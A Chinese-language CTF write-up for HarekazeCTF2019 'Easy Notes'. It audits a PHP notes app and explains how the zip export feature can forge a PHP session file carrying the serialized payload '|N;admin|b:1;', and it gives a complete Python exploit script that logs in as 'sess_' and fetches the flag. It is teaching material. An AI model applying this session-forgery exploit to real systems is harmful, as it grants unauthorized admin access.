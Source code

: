 # \[HarekazeCTF2019]Easy Notes

## \[HarekazeCTF2019]Easy Notes

## 考点

* PHP session反序列化
* PHP代码审计
* PHP session 伪造

## wp

给了源码，打开靶机，是一个笔记系统

![](../../.gitbook/assets/Harekaze2019\_notes\_1.png)

在登陆处进行了匹配，只允许输入 4 到 64 位规定字符，且不是前端验证

![](../../.gitbook/assets/Harekaze2019\_notes\_2.png)

登陆成功后，可以进行增删查和导出为 zip 或 tar 的功能，点击 `Get flag` 提示不是 admin

既然拿到源码就先看看全局配置 `config.php` ，就写了一行，定义临时文件目录



![](<../../.gitbook/assets/image (11) (1).png>)

还要看一下初始化文件`init.php`，定义`session`存储位置

![](<../../.gitbook/assets/image (22) (1) (1) (1) (1).png>)

进入 `page/flag.php` 看一下给出 flag 的条件，要满足 `is_admin()` 函数

![](../../.gitbook/assets/Harekaze2019\_notes\_3.png)

跟进 `is_admin()` 函数，没有发现什么可以利用的地方

![](../../.gitbook/assets/Harekaze2019\_notes\_4.png)

看到有个导出功能，它会将添加的 note 导出为 zip，这个文件存放的位置在 `TEMP_DIR` ，和 `session` 信息保存在同一个位置，那么是不是可以考虑伪造 session

![](<../../.gitbook/assets/image (5) (1) (1).png>)

session 文件以 `sess_` 开头，且只含有 `a-z`，`A-Z`，`0-9`，`-`

看到 `$filename` 处可以满足所有的条件

![](../../.gitbook/assets/Harekaze2019\_notes\_5.png)

构造 `user` 为 `sess_` ，`type` 为 `.` ，经过处理之后，`$path` 就是 `TEMP_DIR/sess_0123456789abcdef` 这就伪造了一个 session 文件

然后向这个文件写入 note 的 `title`

![](../../.gitbook/assets/Harekaze2019\_notes\_6.png)

在最后，它会将构造的 `$filename` 返回，这样就知道了伪造的 session 文件，就可以拿到构造出的 admin 的 session 数据

![](../../.gitbook/assets/Harekaze2019\_notes\_7.png)

最后构造 `session` 触发反序列化使 `is_admin` 返回 `ture` 。

可以看到在导出时，会将 `titl`e 写入伪造的 `session` 文件中

那么就可以在 `title` 处构造序列化字符串，而 php 默认的 `session handler`是 `php`，其存储方式为 `键名+竖线+经过serialize函数序列处理的值`&#x20;

这里 `title` 就构造为 `|N;admin|b:1;` 这样就会满足了 `is_admin`的条件

梳理一下思路

第一步，以 sess\_ 登陆

第二步，添加标题为 `|N;admin|b:1; 的 note`

第三步，访问 export.php?type=. 伪造 session

第四步，获取伪造的 session 进行 get flag

exp

```python
import re
import requests
URL = 'http://192.168.233.136:9000/'

while True:
	# login as sess_
	sess = requests.Session()
	sess.post(URL + 'login.php', data={
		'user': 'sess_'
	})

	# make a crafted note
	sess.post(URL + 'add.php', data={
		'title': '|N;admin|b:1;',
		'body': 'hello'
	})

	# make a fake session
	r = sess.get(URL + 'export.php?type=.').headers['Content-Disposition']
	print(r)
	
	sessid = re.findall(r'sess_([0-9a-z-]+)', r)[0]
	print(sessid)
	
	# get the flag
	r = requests.get(URL + '?page=flag', cookies={
		'PHPSESSID': sessid
	}).content.decode('utf-8')
	flag = re.findall(r'flag\{.+\}', r)

	if len(flag) > 0:
		print(flag[0])
		break
```

## 小结

1. &#x20;php 默认的 `session handler`是 `php`，其存储方式为 `键名+竖线+经过serialize函数序列处理的值`&#x20;
2. session 文件以 `sess_` 开头，且只含有 `a-z`，`A-Z`，`0-9`，`-`
